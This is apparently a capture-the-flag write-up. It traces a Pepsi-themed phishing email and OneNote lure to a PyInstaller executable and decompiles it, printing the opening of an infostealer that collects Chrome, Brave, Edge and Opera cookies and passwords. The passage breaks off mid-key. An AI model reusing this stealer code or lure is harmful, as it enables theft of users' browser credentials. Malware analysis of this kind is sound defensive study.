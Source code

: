 # Writeup

* Download the msg file and open in an e-mail viewer like Outlook:

```
AWESOME OFFER, FREE PEPSI MAX JUST FOR YOU!

TO REDEEM YOU OFFER, FOLLOW THESE STEPS NOW!
1.	OPEN ATTACHED FILE
2.	DOUBLE-CLICK LINK IN FILE
3.	???
4.	PROFIT
ONLY VALID FOR 10 MORE MINUTES!!!

/Pepsi Max
```

* Download the OneNote attachment `FREE PEPSI MAX, $0, ACT QUICK!.one` and open:

```
CLICK ON LINK BELOW TO REDEEM YOUR OFFER!
ACT NOW, OFFER IS VALID FOR 10 MORE MINUTES!!!

free_pepsi.exe
```

* Download the EXE-file and inspect its strings - lots of Python references, so likely a PyInstaller EXE
* Use `pyinstxtractor` from https://github.com/extremecoders-re/pyinstxtractor to extract the original pyc files
* Use a decompiler like `pycdc` from https://github.com/zrax/pycdc on `main.pyc` to recover the original source code

```py
import os
import re
from base64 import b64decode
from json import loads
from shutil import copy2
from sqlite3 import connect

import win32crypt
import requests
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA
from Crypto.Random import get_random_bytes

local = "COMMENTED OUT SO YOU DON'T ACCIDENTALLY EXFILTRATE YOUR OWN DATA :sip:" # os.getenv('LOCALAPPDATA')
roaming = "COMMENTED OUT SO YOU DON'T ACCIDENTALLY EXFILTRATE YOUR OWN DATA :sip:" # os.getenv('APPDATA')

username = os.getlogin()

browser_loc = {
    "Chrome": f"{local}\\Google\\Chrome",
    "Brave": f"{local}\\BraveSoftware\\Brave-Browser",
    "Edge": f"{local}\\Microsoft\\Edge",
    "Opera": f"{roaming}\\Opera Software\\Opera Stable",
    "OperaGX": f"{roaming}\\Opera Software\\Opera GX Stable",
}

fileCookies = "cooks_" + username + ".txt"
filePass = "passes_" + username + ".txt"

public_key = RSA.importKey("""-----BEGIN PUBLIC KEY-----
```